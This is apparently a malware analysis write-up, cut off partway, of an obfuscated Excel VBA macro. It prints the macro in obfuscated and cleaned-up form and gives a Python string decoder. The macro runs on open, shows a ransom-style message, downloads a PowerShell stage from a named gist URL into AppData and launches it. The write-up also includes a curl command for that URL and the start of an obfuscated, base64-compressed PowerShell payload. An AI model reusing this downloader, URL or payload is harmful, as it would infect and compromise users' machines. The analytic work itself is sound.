¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ = Chr(50) + Chr(48) + Chr(48)
Set ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ = CreateObject("WScript.Shell")
¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ = ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§.SpecialFolders("AppData")
Dim ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼
Dim ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
Dim ¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©¶
Dim ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° As Long
Dim ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» As String
Dim ¿¨¡©§¾¡º·¼½µ¡®¾¥¼½«¹´¥¥¶²°»¤¡·»°¬£°¿¥§¬¸©º¢¾¥·´£¹¥¡½¬¸ª´º°»§¬¥¡£¢¦»·¶ As Long
Dim »¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ As String
Dim »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· As Long
Dim ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ As String
Dim °»»¦¡½º®¤¼º¬³¤³º¸¶®¨½®©µ«¢´¾´··¦«º¬º°¥²ª¹«¿º¼£º·¦¢¬°¢¾§µ²° As String
Dim £©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ As Long
Dim ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬
Dim ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥
Dim ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ As Integer
Dim ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²
Dim ®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©
¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ = 1
Range("A1").Value = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("4BEiàiuP3x6¿QEi³")
Dim ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ As String
´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³ = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³)
MsgBox ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤, vbInformation, ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª As Date
Dim ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ As Date
¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª = Date
¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ = DateSerial(2023, 6, 6)
If ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª < ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ Then
Set ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸² = CreateObject("microsoft.xmlhttp")
Set ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥ = CreateObject("Shell.Application")
³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬ = ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ + ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("\k¿i6Ü_~Bb@")
³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Open "get", ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².send
´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦ = ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².responseBody
If ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Status = 200 Then
Set ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼ = CreateObject("adodb.stream")
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Open
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Type = ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Write ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.SaveToFile ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬, ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ + ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Close
End If
²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥.Open (³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬)
Else
MsgBox ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

The macro was very difficult to read, so I used `Visual Studio Code` to rename the `functions` or `variables` that were used repeatedly. By doing so, if we `scan` the `strings` and they match, they will be displayed together. Then use `Ctrl + F` and `replace` them.





After reviewing, we have the following code.

```powershell
Sub Auto_Open()
Workbook_Open
End Sub

Sub AutoOpen()
Workbook_Open
End Sub

Sub WorkbookOpen()
Workbook_Open
End Sub

Sub Document_Open()
Workbook_Open
End Sub

Sub DocumentOpen()
Workbook_Open
End Sub

Function func1(var)
var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
var2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var)
var3 = InStr(var1, Mid(var, y, 1))
If var3 > 0 Then
var4 = Mid(var2, var3, 1)
var5 = var5 + var4
Else
var5 = var5 + Mid(var, y, 1)
End If
Next
func1 = var5
For var6 = 1 To Len(var7)
var7 = var6
Next
For var8 = 2 To Len(var9)
var9 = 2
Next
For var10 = 3 To Len(var11)
var11 = var10
Next
For var12 = 4 To Len(var13)
var13 = 2
Next
End Function

Sub Workbook_Open()
Dim var14 As Object
Dim var15 As String
Dim var16 As String
Dim var17 As String
Dim var18 As Integer
var18 = Chr(50) + Chr(48) + Chr(48)
Set var14 = CreateObject("WScript.Shell")
var15 = var14.SpecialFolders("AppData")
Dim var19
Dim var20
Dim var33
Dim var6 As Long
Dim var8 As String
Dim var21 As Long
Dim var11 As String
Dim var10 As Long
Dim var12 As String
Dim var22 As String
Dim var9 As Long
Dim var23
Dim var24
Dim var25 As Integer
Dim var26
Dim var27
var25 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim var28 As String
var29 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var28 = func1(var29)
MsgBox var28, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var30 As Date
Dim var31 As Date
var30 = Date
var31 = DateSerial(2023, 6, 6)
If var30 < var31 Then
Set var26 = CreateObject("microsoft.xmlhttp")
Set var24 = CreateObject("Shell.Application")
var23 = var15 + func1("\k¿i6Ü_~Bb@")
var26.Open "get", func1("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
var26.send
var20 = var26.responseBody
If var26.Status = 200 Then
Set var19 = CreateObject("adodb.stream")
var19.Open
var19.Type = var25
var19.Write var20
var19.SaveToFile var23, var25 + var25
var19.Close
End If
var24.Open (var23)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

A general description of the function `func1`

```powershell
Function func1(var)
var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
var2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var)
var3 = InStr(var1, Mid(var, y, 1))
If var3 > 0 Then
var4 = Mid(var2, var3, 1)
var5 = var5 + var4
Else
var5 = var5 + Mid(var, y, 1)
End If
Next
func1 = var5
For var6 = 1 To Len(var7)
var7 = var6
Next
For var8 = 2 To Len(var9)
var9 = 2
Next
For var10 = 3 To Len(var11)
var11 = var10
Next
For var12 = 4 To Len(var13)
var13 = 2
Next
End Function
```

The `function` takes an input string and checks each character of the `var`. If a character matches one in `var1`, it will be `replaced` by the corresponding character in `var2`, and the resulting string will be returned.

I wrote a script to simulate this function in `Python` as follows

```python
def func1(var):
    var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
    var2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
    
    var5 =""
    for i in var :
        var3 = var1.find(i)
        
        if var3 >0 :
            var5 += var2[var3]
        else:
            var5 += i
            
    return var5

data = '''...
'''

print(func1(data)) 
```

The subsequent processes are carried out as follow

* Initialize the variables and `WScript.Shell`
* Retrieve the path inside `AppData` to save data into it later.
* Then update cell A1 in the file with the value of `func1('4BEiàiuP3x6¿QEi³')`



* Next, create the variable `var28` to store the value of `var29`

```powershell
var29 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var28 = func1(var29)
```



This is likely the hacker's information, along with some other less important details in the image below.



* In the next process, a `GET` request will be sent over the network with the `URL` value of

```
func1('ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@')
``` 

to fetch the data. If the status is `200`, the data will be saved into an `adodb.stream` in the `AppData` folder created earlier.



For safety, I used `curl` to fetch the data from this website.

```shell
curl https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1
```



`Result`

```powershell
 . ((VaRIablE '*MdR*').NAmE[3,11,2]-JOIn'') (nEW-OBJeCT IO.cOmPrEsSion.DeflAteSTREam( [sYStEm.IO.MeMOrYSTreAM][CoNVeRt]::frOMBase64sTriNG('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